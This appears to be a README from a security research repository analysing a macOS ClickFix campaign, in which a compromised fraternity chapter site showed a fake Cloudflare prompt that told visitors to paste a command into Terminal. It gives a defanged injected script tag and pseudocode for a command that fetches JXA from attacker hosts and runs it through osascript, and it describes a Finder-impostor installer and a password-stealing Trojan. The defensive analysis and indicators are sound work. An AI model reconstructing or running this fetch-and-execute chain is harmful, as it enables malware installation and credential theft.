


# The Cloudflare prompt that wanted a Mac terminal



On October 13, 2026, `johnshopkins.sigep.org` displayed this fake Cloudflare verification flow. The page told a Mac user to open Terminal, paste the clipboard, and press Enter. That sequence would have executed a remotely supplied JavaScript for Automation (JXA) loader under the user's account, installed a Finder-impostor application in the user's cache directory, and launched a Mach-O Trojan.

The command was **not executed**. This report is a static analysis of the page, its decoded browser script, the clipboard command it generated, and the downloaded JXA loader. No malicious code was evaluated or launched. The final Mach-O was no longer available from its origin during analysis, but the exact file is indexed by hash in MalwareBazaar.

> **Safety:** The live commands and URLs in this repository are defanged or reduced to pseudocode. Do not visit the affected page or reconstruct and execute the command.

> **Defensive-research notice:** This repository contains no malware binaries, complete malicious scripts, or runnable exploit code. It documents an observed campaign so defenders can recognize and investigate it. For content or abuse concerns, see [`SECURITY.md`](SECURITY.md).

## What happened

The HTML response observed in Safari included this third-party script immediately before `</head>`:

```html
<script async src="hxxps://browse-veriid[.]beer/api.php?s=<campaign-key>&_v=<version>"></script>
```

That script decoded a second JavaScript program in memory and ran it with `new Function`. The decoded program:

1. reported the page URL, referrer, and a generated visitor UUID to its control server;
2. covered the page with a high-fidelity Cloudflare imitation;
3. blocked common developer-tool shortcuts and the context menu;
4. requested a victim-specific macOS command from the server;
5. attempted to place that command on the clipboard after the fake checkbox was clicked;
6. instructed the victim to open Terminal, paste, and press Enter; and
7. polled the server until the victim token was marked consumed, then displayed a fake success state.



## What the pasted command did

The clipboard content used two Base64 layers. Decoding them without execution produced this behavior:

```text
GET hxxp://browse-veriid[.]beer/p/<victim-token>
if the response body is exactly "ok":
    GET hxxps://policysync[.]pro/<campaign-path>
    pipe the response to: osascript -l JavaScript
```

The final pipeline used `curl -sfL`, which hides output, fails on HTTP errors, and follows redirects. `osascript -l JavaScript` then interprets the response as JXA. Static recovery of that JXA showed that it:

1. checks for virtual machines, debuggers, disabled System Integrity Protection, and selected CIS-region locale signals;
2. decrypts its hidden configuration only when the checks describe an intended physical-Mac target;
3. creates `~/Library/Caches/com.apple.finder/Finder.app` with the real Finder icon;
4. gives the bundle identifier `apple.finder.runtime`, hides its Dock presence, and configures it as a background application;
5. downloads a universal Mach-O as `Contents/MacOS/3F9730CF`, sets mode `0755`, and launches the bundle through `NSWorkspace`.

The referenced Mach-O has SHA-256 `ddb7afd3e2d53100759643bb3b94b5cf011840d518d5553f33ae5c780af784e6`. [MalwareBazaar identifies the exact filename and hash](https://bazaar.abuse.ch/sample/ddb7afd3e2d53100759643bb3b94b5cf011840d518d5553f33ae5c780af784e6/) and records a `Trojan[PSW]/MacOS.Agent` malicious verdict from Hybrid Analysis.

The first request also appears to act as a one-time token redemption. In parallel, the fake browser overlay polls the control server for a `consumed` flag. This lets the web page react to successful Terminal execution and reassure the victim with a false “Verification complete” message.

## What is proven

- Safari loaded the injected script while displaying `https://johnshopkins.sigep.org/`.
- Reloading the SigEp page reproduced the malicious overlay during the observation window.
- The injected program implemented clipboard delivery, fake instructions, server polling, and an optional redirect.
- The supplied shell command led to remote JXA execution if pasted and run.
- The recovered JXA created and launched a hidden Finder-impostor application from the user's cache directory.
- The referenced executable is a known universal Mach-O with a password-stealing Trojan verdict in public threat intelligence.
- The command was not executed, and the Mach-O was not run or loaded during this analysis.

The evidence does **not** identify how the website was compromised. The site used WordPress, but the injection could have come from a compromised theme, plugin, database value, tag manager, administrator account, hosting account, or server. Naming a specific entry point would be speculation.

## Indicators

| Indicator | Role |
| --- | --- |
| `browse-veriid.beer` | Injected JavaScript, visit telemetry, command delivery, and token polling |
| `policysync.pro` | Final JXA payload host referenced by the decoded command |
| `7f6210a091c37ae9bfa1bfd2562d440d842370e171427c6b` | Campaign key in the observed loader |
| `bw-cf-root` | DOM ID used by the fake verification overlay |
| `bw-cf-style` | DOM ID used by the injected stylesheet |
| `~/Library/Caches/com.apple.finder/Finder.app` | Finder-impostor application created by the JXA loader |
| `apple.finder.runtime` | Bundle identifier assigned to the impostor application |
| `3F9730CF` | Installed Mach-O executable name |
| `032d571c30c889a9cd2d459f5378eb50b87da0e077898ec93b8e4dcea7ca3c19` | SHA-256 of the retrieved obfuscated JXA loader |
| `ddb7afd3e2d53100759643bb3b94b5cf011840d518d5553f33ae5c780af784e6` | SHA-256 of the referenced universal Mach-O |

Both domains had contemporaneous ClickFix-related ThreatFox entries: [`browse-veriid.beer`](https://threatfox.abuse.ch/ioc/1961703/) and [`policysync.pro`](https://threatfox.abuse.ch/ioc/1961428/).

## Technique mapping

- [MITRE ATT&CK T1204.004 — Malicious Copy and Paste](https://attack.mitre.org/techniques/T1204/004/)
- [MITRE ATT&CK T1059.007 — JavaScript/JScript](https://attack.mitre.org/techniques/T1059/007/)
- [MITRE ATT&CK T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

Microsoft has documented the same broad macOS ClickFix pattern: a fake verification prompt asks the victim to paste an obfuscated command into Terminal, which then downloads and runs JXA. See [“macOS ClickFix campaign: Learned to hide”](https://www.microsoft.com/en-us/security/blog/2026/08/05/macos-clickfix-campaign-learned-hide/) and its broader [ClickFix analysis](https://www.microsoft.com/en-us/security/blog/2025/08/21/think-before-you-clickfix-analyzing-the-clickfix-social-engineering-technique/).

## Repository contents

- [`analysis/technical-walkthrough.md`](analysis/technical-walkthrough.md) reconstructs the browser loader and victim flow.
- [`analysis/macos-payload.md`](analysis/macos-payload.md) documents the statically recovered JXA and final Mach-O indicator.
- [`lab/firecracker-design.md`](lab/firecracker-design.md) proposes a contained, offline reproduction of the web layer.
- [`indicators.csv`](indicators.csv) contains the observed indicators in a machine-readable form.
- [`assets/fake-cloudflare-clickfix.png`](assets/fake-cloudflare-clickfix.png) is the original screenshot.

## Research tooling

Static analysis and report preparation used OpenAI's `gpt-daybreak-blue-latest` at `xhigh` reasoning effort. The local session metadata records that exact alias and setting; [OpenAI's model catalog identifies the deprecated Daybreak Blue alias with `gpt-5.6-sol`](https://developers.openai.com/api/docs/models/gpt-daybreak-blue-latest). Findings were checked against the captured artifacts and the external sources linked above.

## Timeline

| Time | Event |
| --- | --- |
| 2026-10-13 19:02 PDT | Screenshot captured on the affected SigEp chapter page |
| 2026-10-13 | Page source, decoded browser code, and clipboard command analyzed without execution |
| 2026-10-13 | Reload reproduced the malicious page in Safari |
| 2026-10-13 | JXA loader retrieved, statically decrypted, and traced to a known Mach-O sample |
| Pending | Website owner notification and remediation confirmation |

Website-owner notification and remediation confirmation remain pending at publication time. The observation above only describes the site during the stated window.

